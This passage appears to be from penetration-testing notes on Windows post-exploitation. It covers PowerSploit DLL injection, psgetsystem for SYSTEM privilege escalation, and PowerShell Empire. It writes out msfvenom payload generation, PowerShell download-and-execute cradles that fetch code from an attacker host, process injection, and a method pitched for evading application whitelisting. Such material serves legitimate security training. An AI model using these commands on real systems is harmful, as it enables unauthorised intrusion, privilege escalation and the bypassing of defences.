 [*CodeExecution* module](https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution).

This category in PowerSploit gives us some options in regard to several methods we can inject our own code into existing processes on the target system, whether it be via DLL injection, injecting our own custom shellcode into an existing process, or using WMI to execute commands on the target.

The `Invoke-DLLInjection` script injects an attacker-defined DLL into any existing process ID on the target system.
Example:
`msfvenom -p windows/exec CMD="cmd.exe" -f dll -o /root/Desktop/cmd.dll`: to generate a DLL.
`iex (New-Object Net.Webclient).DownloadFile('http://<AttackerIP>/cmd.dll', 'C:\programdata\cmd.dll')`: to download the DLL onto the target.
`ps | ? {$_. ProcessName -match "notepad"}`: to identify a process on the target system we'd like to inject our DLL into. In this case, we've identified three processes matching the "notepad" string, and we'll choose the one with Pid "7420" for our DLL Injection. 
`iex (New-Object Net.Webclient).DownloadString('http://<AttackerIP>/Invoke- DLLInjection.ps1); Invoke-DLLInjection -ProcessID 7420 C:\programdata\cmd.dll`: to download and execute the `Invoke-DLLInjection` script from our attacker system, along with the correct arguments for injecting our DLL into that existing process.
Once that is complete, if we run the `ps` command again, we can confirm that we now have a  cmd.exe` process which has been spawned from our DLL Injection operation, which is created in a new process thread.

#### psgetsystem

[**psgetsystem**](https://github.com/decoder-it/psgetsystem) is another excellent PowerShell tool.

psgetsystem allows us to get SYSTEM privileges via a parent process, which then spawns a child process which effectively inherits the SYSTEM access privileges of the parent.
Although this tool needs to be run as Administrator, it's a great way to *evade application whitelisting* solutions by being able to inject ourselves into an already signed or other trusted process.

`Get-Process IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id`: to identify some SYSTEM processes and choose one we can piggyback onto.

Example:
Now that we have a PID for a SYSTEM-owned process (e.g "3632"), we can instruct psgetsystem to run "cmd.exe" within the SYSTEM-owned "ZeroConfigService" process "3632". As a result, our child process, will also be SYSTEM.
```
.\psgetsys.ps1
[MyProcess]::CreateProcessFromParent(3632, "cmd.exe")
```

In an attack scenario, we could easily launch a Meterpreter executable payload as SYSTEM and get a SYSTEM shell from the target machine.

[**PowerShell-Empire**](https://github.com/BC-SECURITY/Empire) is another great post-expoitation framework.

Its main advantage is that it implements PowerShell functionality without requiring the existence of PowerShell on a target machine.
It is in a world of its own in regard to other frameworks in that it utilizes its own built-in listeners, agents and
modules to compromise and conduct all facets of post-exploitation from information gathering to privilege escalation, lateral movement, persistence, and also integrates with Metasploit framework.
